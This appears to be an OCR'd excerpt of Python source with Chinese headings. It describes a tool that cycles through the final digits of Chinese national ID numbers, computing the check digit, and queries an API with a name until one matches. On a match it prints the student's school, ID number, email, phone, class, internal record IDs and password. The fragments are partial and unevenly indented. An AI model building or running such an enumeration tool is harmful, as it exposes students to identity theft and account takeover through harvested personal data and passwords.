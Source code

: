 ```Python
            while namelength > 0 and mid_FUCK1 == OBJ_namelength:
                if NAME_list[namelength-1] == OBJ_NAME_list[namelength-1] or OBJ_NAME_list[namelength - 1] == "*":
                    namelength -= 1
                    similar_Num += 1
                    trustNUM = True
                else:
                    trustNUM = False
                    break
```
#### 相似度等于姓名长度时输出数据并结束while循环TAB
```Python
if trustNUM == True and similar_Num == mid_FUCK1:
    print("100%")
    print("***************INFO*********************")
    print("School:" + OBJ_school)
    print("Name:" + NAME)
    print("I D:" + OBJ_ID)
    print("e-mail:" + OBJ_email)
    print("phoneN:" + OBJ_PHONEnum)
    print("class:" + OBJ_CLASS)
    print("SFZJH:" + OBJ_ID + "\\t")
    print("XS_JBXX_ID:" + OBJ_XS_JBXX_ID)
    print("XXBMS:" + OBJ_XXBMS)
    print("Pass:" + OBJ_Pass)
    print("*******************************************")
    return True
```
#### 提前计算下一个数据
```Python
        j = int(i[0]) * 100 + int(i[1]) * 10 + int(i[2])
        Try_CNID[14] = i[0]
        Try_CNID[15] = i[1]
        Try_CNID[16] = i[2]
        Try_CNID[17] = str(CN_ID_Compute(Try_CNID))
        j += PerPlus
        i[0] = str(int((j - (j % 100)) / 100))
        i[1] = str(int(((j % 100) - ((j % 100) % 10)) / 10))
        i[2] = str(int(j % 10))
```
#### 继续while循环
```Python
times -= 1
```
### 定义全局变量
```
I = (18, 17, 16, 15, 14, 13, 12, 11, 10, 9, 8, 7, 6, 5, 4, 3, 2, 1)
WI = (7, 9, 10, 5, 8, 4, 2, 1, 6, 3, 7, 9, 10, 5, 8, 4, 2, 1)
Y = (0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10)
YX = (1, 0, "X", 9, 8, 7, 6, 5, 4, 3, 2)
```
### 编写main函数
```Python
def main():
    kami = input("ENTER PSW:")
    timesw = 0.5
    if kami == "0" or kami == "0":
        API_ = input("PSW RIGHT PLS ENTER API:")
        print("CN ID Check:(if u forget your ID)")
        time.sleep(0.2)
        Last_4_ID_Try(BeTry=input_imfo(), Sex=int(input_sex()), NAME=input("输入你的姓名:"),API=API_,TME=timesw)
```